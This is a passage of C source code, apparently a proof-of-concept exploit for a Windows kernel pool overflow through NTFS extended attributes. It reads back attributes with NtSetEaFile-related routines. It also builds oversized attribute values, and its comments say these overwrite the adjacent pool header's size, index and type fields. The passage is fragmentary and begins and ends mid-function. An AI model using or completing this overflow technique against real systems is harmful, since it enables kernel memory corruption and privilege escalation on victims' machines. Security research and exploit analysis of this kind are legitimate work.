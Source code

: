 ```c
        return;
    }

    printf("Extended attributes queried successfully\n");
    
    PFILE_FULL_EA_INFORMATION eaEntry = queryBuffer;
    do {
        printf("EA Name: %.*s\n", eaEntry->EaNameLength, eaEntry->EaName);
        printf("EA Value: %.*s\n", eaEntry->EaValueLength, eaEntry->EaName + eaEntry->EaNameLength + 1);

        if (eaEntry->NextEntryOffset == 0)
            break;

        eaEntry = (PFILE_FULL_EA_INFORMATION)((PUCHAR)eaEntry + eaEntry->NextEntryOffset);
    } while (TRUE);
    

    free(queryBuffer);
}


BOOL set_extended_attributes(NtSetEaFile_t NtSetEaFile) {

    // Set extended attribute
    CHAR eaValue1[]  = "This is a co\xffment123AAAABBBBCCCCDDDDEEEEFFFFAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHJJJJKKKKLLLLMMMMNNNNOOOOPPPP\x01\x02\x03\x04\x05\x06\x07\x08\x01\x02\x03\x04\x05\x06\x07\x08\x01\x02\x03\x04\x05\x06\x07\x08";
    CHAR eaValue2[] = "This is a co\xffment123AAAABBBBCCCCDDDDEEEEFFFFGGHHHHIIIIJJAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHJJJJKKKKLLLLMMMMNNNNOOOOPPPP\x01\x02\x03\x04\x05\x06\x07\x08\x01\x02\x03\x04\x05\x06\x07\x08\x01\x02\x03\x04\x05\x06\x07\x08";
    CHAR eaValue3[] = "TABCD"; // next header is starting to be overwritten after the `T` (eaValue3[1:])


    // the overflow data
    // Set the pool type to the same pooltype with aligned chunk set (| 4)
    *((unsigned char*)eaValue3 + 1) = 0x41;  // previous size - we use 0x120 (from debugging session)

    *((unsigned char*)eaValue3 + 1 + 1) = 0x41;                     // pool index
    *((unsigned char*)eaValue3 + 1 + 2) = 0x41;                     // block size
    *((unsigned char*)eaValue3 + 1 + 3) = 0x41; // pool type


    ULONG eaValue1Length = sizeof(eaValue1);
    ULONG eaValue2Length = sizeof(eaValue2);
    ULONG eaValue3Length = sizeof(eaValue3) - 1; // `-1` gets rid of the trailing null byte

    ULONG eaBufferSize1 = sizeof(FILE_FULL_EA_INFORMATION) + EA_NAME_LENGTH + eaValue1Length;
    ULONG eaBufferSize2 = sizeof(FILE_FULL_EA_INFORMATION) + EA_NAME_LENGTH + eaValue2Length;
    ULONG eaBufferSize3 = sizeof(FILE_FULL_EA_INFORMATION) + EA_NAME_LENGTH + eaValue3Length;
    PFILE_FULL_EA_INFORMATION eaBuffer1 = (PFILE_FULL_EA_INFORMATION)malloc(eaBufferSize1);
    PFILE_FULL_EA_INFORMATION eaBuffer2 = (PFILE_FULL_EA_INFORMATION)malloc(eaBufferSize2);
    PFILE_FULL_EA_INFORMATION eaBuffer3 = (PFILE_FULL_EA_INFORMATION)malloc(eaBufferSize3);



    if (!eaBuffer1 || !eaBuffer2|| !eaBuffer3) {
        printf("Memory allocation error\n");
        CloseHandle(hFile);
        return 0;
    }
```
